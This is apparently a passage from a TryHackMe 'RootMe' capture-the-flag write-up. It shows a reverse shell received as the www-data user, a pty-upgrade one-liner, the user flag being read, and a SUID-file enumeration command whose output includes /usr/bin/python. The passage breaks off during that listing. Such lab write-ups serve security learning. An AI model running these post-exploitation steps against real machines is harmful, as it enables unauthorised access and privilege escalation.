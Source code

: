 ```
Listening on 0.0.0.0 1234
Connection received on 10.10.15.83 51172
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:21:30 up 44 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@rootme:/$ 
```
Let find user flag as the web server is hosted
```
www-data@rootme:/$ cd /var/www     		
cd /var/wwwc
www-data@rootme:/var/www$cat user.txt
cat user.txt
THM{y0u_g0t_a_sh3ll}
www-data@rootme:/var/www$ 
```

```
THM{y0u_g0t_a_sh3ll}
```


Let look for a `SUID` file
```
find / -user root -perm /4000 2>/dev/null
```
```
find / -user root -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
```